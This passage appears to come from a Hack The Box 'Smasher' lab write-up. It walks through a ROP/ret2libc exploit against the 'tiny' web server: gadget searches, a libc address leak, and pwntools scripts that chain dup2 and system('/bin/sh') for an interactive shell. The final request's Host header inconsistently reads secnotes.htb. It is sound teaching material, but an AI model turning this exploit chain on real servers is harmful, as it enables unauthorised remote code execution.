

https://epi052.gitlab.io/notes-to-self/blog/2018-10-02-hack-the-box-smasher/
If you’re familiar with 32-bit binary exploitation, it may be surprising that we’re not targeting the instruction pointer, RIP (64-bit equivalent of EIP). We’re going to craft our exploit using Return-Oriented Programming (ROP). More specifically, we’re going to craft a ret2libc exploit.
When using ROP, the goal is to use existing instructions within the binary to perform desirable actions. Those pieces of existing code are known as rop gadgets. Each rop gadget will terminate in a ret instruction. Each ret instruction moves program control to a return address located on the top of the stack. Since we can control what code is placed at the top of the stack with our PoC, we can chain multiple rop gadgets together, because each gadget will move program execution to the start of the next gadget. Essentially, the top of the stack takes the place of our instruction pointer.
Ret2PLT: determining other addresses
Now that we know how many bytes it takes to reach the stack, we can start placing rop gadgets onto the stack to do our bidding. Our bidding in this case is to perform a Ret2PLT attack in order to leak a memory address from within libc. The question then becomes, which rop gadgets to we need? To answer that, we need to look at x86_64 bit calling conventions to understand the way forward.
x64 Assembly Calling Conventions
To pass parameters to a syscall, up to six registers may be used. They are shown below in the order in which they need to be populated. The syscall number itself is normally stored in rax, however we will just use the memory address of the syscall itself directly.
rdi rsi rdx rcx r8 r9
To actually perform a syscall, we need to populate some of these registers with the arguments we want to pass to the syscall.
The write Syscall
Having looked at calling conventions, let’s make a plan for what we need to put into the registers in order to make a successful call to write. Below, you can see the function definition of write and what we’ll attempt to put into rdi and rsi.

Locate write
To begin building our first ROP chain, we’ll get the address of the write syscall from the Procedure Linkage Table (PLT). The PLT is used to call external procedures/functions whose address isn’t known at the time of linking, and is left to be resolved by the dynamic linker at run time (recall that this binary is dynamically linked). The PLT is used in conjunction with the Global Offset Table (GOT) to implement dynamic linking. For more information on how dynamic libraries work in ELF files, please check out this fantastic post on the subject.
objdump -D tiny | grep write
objdump options used:
-D, --disassemble-all
disassemble the contents of all sections, not just those expected to contain instructions.
The results of objdump show that the PLT address of write is 400c50.
0000000000400c50 <write@plt>:
400c50: ff 25 e2 23 20 00 jmpq *0x2023e2(%rip) # 603038 <write@GLIBC_2.2.5>
write will be the first value we place onto the stack (this will eventually make it the furthest from the top of the stack after the other registers are setup).
RDI Setup
We’ll start with finding a gadget for rdi. We’ll use the ropsearch command in peda to locate a gadget. The most direct gadget for getting a value into rdi is a pop rdi, so that’s what we’ll try for first.
gdb -q tiny
gdb-peda$ break main
gdb-peda$ run
gdb-peda$ peda ropsearch "pop rdi"
1
2
3
4
0x004011dd : (b'5fc3') pop rdi; ret
0x00401202 : (b'5fc3') pop rdi; ret
0x00401d36 : (b'5fc3') pop rdi; ret
0x00401ff3 : (b'5fc3') pop rdi; ret
Success! A pop instruction loads the value from the top of the stack to the location specified and then increments the stack pointer. In our case, we’re specifying rdi as the destination. Simply put, we’ll use this gadget to grab the value at the top of the stack and store it in rdi. Any of the gadgets returned will work, we’ll just use the first one though.
The value we want to pop from the stack into rdi is 0x4. When tiny is run locally, we see the message listen on port 9999, fd is 3 printed to the screen. fd in this case stands for file descriptor. Since we know that the server’s file descriptor at startup is 3, it’s a reasonable assumption that each request to the server increments the file descriptor by one.
Taking rdi and 0x4 into account, our stack will look like this:
TOP OF STACK
0x4011dd (pop rdi; ret)
0x4 (fd to write to)
0x400c50 (write address)
BOTTOM OF STACK
RSI Setup
Next up, we need to search for a gadget that will allow us to get a value into rsi.
gdb-peda$ peda ropsearch "pop rsi"
Searching for ROP gadget: 'pop rsi' in: binary ranges
0x004011db : (b'5e415fc3') pop rsi; pop r15; ret
0x00401200 : (b'5e415fc3') pop rsi; pop r15; ret
-------------8<-------------
Success again! We have a pop rsi. The interesting piece here is that our gadget will pull two values off the stack. The first value will go into rsi, the other will to into r15. Luckily, we don’t care about r15 and can just jam some garbage in there.
The value we want to load into rsi is the address of a syscall from the Global Offset Table (GOT). The Global Offset Table is a table of addresses stored in the data section of an ELF binary. It is used by the executed program to locate addresses that aren’t known at compile time (i.e. those that are dynamically linked). In our case we’ll use the read syscall from libc, whose address is located in the GOT, as our value for rsi.
We can locate the address of read the same way we found write.
objdump -D tiny | grep read
0000000000400cf0 <read@plt>:
400cf0: ff 25 92 23 20 00 jmpq *0x202392(%rip) # 603088 <read@GLIBC_2.2.5>
With address in hand, we can take another look at our stack.
TOP OF STACK
0x4011db (pop rsi; pop r15; ret)
0x603088 (read@GLIBC from GOT)
0xDEADBEEF (garbage for r15)
0x4011dd (pop rdi; ret)
0x4 (fd to write to)
0x400c50 (write address)
BOTTOM OF STACK
Memory Leak Payload
It’s time to go back to our PoC and alter the payload to hopefully see the memory address of read returned to us from tiny. However, instead of altering our original PoC, we’re going to use pwntools for the rest of the exploit. It has a lot of built-in functionality to make our lives easier.
=============================================================
import urllib
from pwn import *
context.bits = 64
context.arch = 'amd64'
context.endian = 'little'
context.log_level = 'debug' # increase verbosity!
host = '127.0.0.1'
port = 9999
pop_rsi = p64(0x4011db)
read_got = p64(0x603088)
r15_junk = p64(0xdeadbeef)
pop_rdi = p64(0x4011dd)
file_descriptor = p64(0x4)
write_plt = p64(0x400c50)
client = remote(host, port)
# distance to the stack
payload = 'A' * 568
# our ROP chain as discussed above
payload += pop_rsi
payload += read_got
payload += r15_junk
payload += pop_rdi
payload += file_descriptor
payload += write_plt
url = """GET /{} HTTP/1.1\r\nHost: smasher.htb\r\n\r\n""".format(urllib.quote(payload))
client.send(url)
response = client.recvall()
=============================================================
There’s not a whole lot introduced in the script that hasn’t been discussed already. The p64() function is just converting our memory addresses into little-endian 64-bit values for use in our ROP chain.
The other primay change is is that we’re using urllib.quote to encode our payload so that it plays nicely within the context of an HTTP request.
Ret2libc
Now that we have an address into libc, the randomised (ASLR) libc base address can be calculated. Once we know what the base address is, the address of any function in libc can be calculated by its offset and used in our next ROP chain. We’ll leverage that to execute the system syscall, which is a part of libc. Additionally, for this ROP chain, we’re going to harness the power of pwntools to show how some of our earlier manual steps can be simplified.
Calculate libc Base Address
Let’s begin by grabbing the target’s version of libc, since that is what the tiny web server on smasher will be using when we throw our exploit.
wget http://10.10.10.89:1111//lib/x86_64-linux-gnu/libc.so.6 -O targets-libc
Now we can start piecing together what we need to get libc’s base address for use in calculating offsets. Let’s grab the address of read from within libc (not to be confused with the address of read from within tiny, which is what we just leaked above).
readelf -s targets-libc | grep read
-------------8<-------------
891: 00000000000f7250 90 FUNC WEAK DEFAULT 13 read@@GLIBC_2.2.5
readelf options used:
-s, --symbols, --syms
Displays the entries in symbol table section of the file, if it has one.
We’ll use that address to calculate the base address of libc.
...
client.close() # tear down leak connection
libc_read = 0x0f7250
# gets offset that will be constant for all other libc functions
offset = read_address - libc_read
log.info("base libc address is: {}".format(hex(offset)))
...
Finding libc Functions
Next, we need to determine the address of a few functions we’re interested in as well as the string /bin/sh. As seen earlier, we’ll be using the target’s libc to find these addresses. First up, we’ll check out a manual way to get those addresses.
-------------8<-------------
readelf -s targets-libc | grep system
1351: 0000000000045390 45 FUNC WEAK DEFAULT 13 system@@GLIBC_2.2.5
-------------8<-------------
readelf -s targets-libc | grep dup2
962: 00000000000f7970 33 FUNC WEAK DEFAULT 13 dup2@@GLIBC_2.2.5
-------------8<-------------
strings -t x targets-libc | grep /bin/sh
18cd57 /bin/sh
strings options used:
-t radix
Print the offset within the file before each string. The single character argument
specifies the radix of the offset
o for octal
x for hexadecimal
d for decimal
We can get the same results with the following code using pwntools’ ELF class. However, in order to make the addresses usable, we need to update the libc variable’s base address to be that of our calculated offset. Doing this allows us to seamlessly use all of the addresses we pull out of the targets-libc later in our code.
NOTE: Special thanks to the awesome @elkement are in order for pointing out that I forgot to include this small but crucial detail in the write-up!
Having set the base address in the libc variable, future uses of the addresses will be equivalent to offset + address.
...
libc = ELF('./targets-libc')
libc.address = offset
libc_read = libc.sym.read # 0x0f7250
libc_system = libc.sym.system # 0x045390
libc_dup2 = libc.sym.dup2 # 0x0f7970
libc_binsh = next(libc.search("/bin/sh")) # 0x18cd57
...
ROP Chain #2
It’s time to build out another ROP chain. Here’s where the magic of pwntools really ramps up.
Calling dup2
Executing /bin/sh won’t do us much good if our file descriptors don’t send and receive data. We can use dup2 to get our file descriptors situated.
Here is the prototype for dup2. The dup2() system call creates a copy of the file descriptor oldfd using the file descriptor number specified in newfd as its target.
int dup2(int oldfd, int newfd);
We’re going to lean on the pwntools ROP class and some of its methods to easily setup our dup2 calls.
...
tiny = ELF('./tiny')
rop = ROP(tiny)
rop.call(libc_dup2, [0x4, 0x0]) # STDIN
rop.call(libc_dup2, [0x4, 0x1]) # STDOUT
rop.call(libc_dup2, [0x4, 0x2]) # STDERR
...
That’s it! A quote from the docs enlightens us a little bit as to what’s going on, but essentially, the act of setting up our own ROP chain is abstracted away. Each rop.call takes the function we want to call and the arguments we want to pass to that function.
For amd64 binaries, the registers are loaded off the stack. Pwntools can do basic reasoning about simple “pop; pop; add; ret”-style gadgets, and satisfy requirements so that everything “just works”.
Calling system
For reference, here is the system syscall prototype. The system() syscall uses fork to create a child process that executes the shell command specified in command using execl.
int system(const char *command);
Let’s magic ourselves up the rest of our ROP chain.
rop.call(libc_system, [libc_binsh])
Final Payload
To finish things out, we’ll use pwntools’ fit function. fit is inserting our final ROP chain at the offset 568, ezpz.
...
payload = fit({568: rop.chain()})
url = """GET /{} HTTP/1.1\r\nHost: secnotes.htb\r\n\r\n""".format(urllib.quote(payload))
client = remote(host, port)
client.send(url)
client.recvuntil("File not found")
client.interactive()
client.close()
...